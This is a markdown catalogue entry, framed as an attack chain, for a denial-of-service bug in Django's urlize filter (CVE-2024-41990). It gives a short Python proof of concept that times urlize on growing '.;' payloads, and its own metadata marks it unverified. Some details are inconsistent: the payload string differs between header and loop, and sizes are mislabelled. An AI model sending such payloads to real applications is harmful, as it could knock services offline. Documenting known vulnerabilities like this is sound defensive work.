

---
tags:
  - dos
  - django
  - python
  - web
  - vulnerability
  - cve-2024-41990
type: attack_chain
tools:
  - '[[tools/Python]]'
  - '[[tools/Django]]'
tactics:
  - '[[Impact]]'
verified: false
platforms:
  - Web
  - Python
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Demonstrate-DoS-in-Django-urlize-with-Repeated-Payloads]]'
step_count: 4
techniques:
  - '[[Endpoint Denial of Service]]'
updated_at: '2025-12-14T17:27:02.964Z'
description: >-
  Demonstrates a denial-of-service attack exploiting algorithmic complexity in
  Django's urlize and urlizetrunc template filters using repeated '.;' payloads
  to cause exponential processing delays.
skill_level: intermediate
impact_level: high
id: 7fba3b68-5181-4302-a964-aa70c344505d
validated: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[Endpoint Denial of Service]]'
---
---

# Denial-of-Service via Exponential Slowdown in Django urlize Function

Multi-stage attack chain demonstrating a complete denial-of-service workflow targeting Django applications.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python]]
- [[tools/Django]]

### Target Environment

- Django web application using urlize or urlizetrunc template filters
- Python runtime environment
- No specific ports or services required for PoC; in production, targets user-controlled input fields in web forms or database-stored content

### Initial Access Requirements

- Access to Django application code or ability to submit large inputs via POST requests
- No credentials needed for PoC demonstration
- Network access to run the script locally or against a test server

## Detailed Attack Procedures

### Step 1: Import Required Modules
procedure: [[procedures/Demonstrate-DoS-in-Django-urlize-with-Repeated-Payloads]]

**Objective**: Set up the testing environment by importing necessary Django utilities and timing modules.

**Instructions**: Begin by importing the Django html utilities for the urlize function and the time module for benchmarking.

Execute [[commands/import-django-utils-html]]:

```python
import django.utils.html
```

Then execute [[commands/import-time-module]]:

```python
from time import time
```

**Expected Output**: No output; modules are loaded successfully.

**Success Indicators**:
- No import errors
- Django environment accessible

### Step 2: Print Test Header
procedure: [[procedures/Demonstrate-DoS-in-Django-urlize-with-Repeated-Payloads]]

**Objective**: Display a header to indicate the start of the urlize performance test.

**Instructions**: Output a message to log the test initiation.

Execute [[commands/print-test-header]]:

```python
print('=== django.utils.html.urlize(".;*" * n) ===')
```

**Expected Output**: === django.utils.html.urlize(".;*" * n) ===

**Success Indicators**:
- Header printed to console
- Test logging begins

### Step 3: Loop Over Payload Sizes and Measure Execution
procedure: [[procedures/Demonstrate-DoS-in-Django-urlize-with-Repeated-Payloads]]

**Objective**: Generate payloads of increasing sizes with repeated '.;' characters and time the urlize function calls to reveal slowdown.

**Instructions**: Use a loop to create payloads from 0 to 1,000,000 characters in 40,000 increments. For each, time the urlize execution.

Execute [[commands/loop-payload-sizes]] to start the loop:

```python
for i in range(0,1000000,40000):
```

Inside the loop, execute [[commands/start-timing]]:

```python
    start = time()
```

Generate payload with [[commands/generate-payload]]:

```python
    PAYLOAD = ".;" * i
```

Call the vulnerable function using [[commands/execute-urlize]]:

```python
    django.utils.html.urlize(PAYLOAD)
```

Log results with [[commands/print-timing-results]]:

```python
    print(len(PAYLOAD), "\t", time()- start)
```

**Expected Output**: Lines like 80000 	 0.517104148864746 for each iteration, with times increasing.

**Success Indicators**:
- Payloads generated without errors
- Timing data collected for multiple sizes

### Step 4: Analyze Performance Degradation
procedure: [[procedures/Demonstrate-DoS-in-Django-urlize-with-Repeated-Payloads]]

**Objective**: Review the execution times to confirm exponential slowdown, indicating potential DoS.

**Instructions**: Observe the printed results showing times escalating from ~0.5s for 80,000 chars to over 106s for 1,040,000 chars.

No specific command; manually review console output from previous step.

**Expected Output**: Exponential increase in processing time, e.g., 80,000 chars: 0.517s; 1,040,000 chars: 106.528s.

**Success Indicators**:
- Clear evidence of performance degradation
- Confirmation of DoS vulnerability in unpatched Django

## Attack Chain Summary

### Key Achievements

1. Successfully imported and set up Django urlize testing environment
2. Generated and processed large '.;' repeated payloads
3. Demonstrated exponential slowdown leading to DoS potential
4. Validated impact on user-controlled inputs without size limits

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---

*Last updated: 2024-10-01T00:00:00Z*
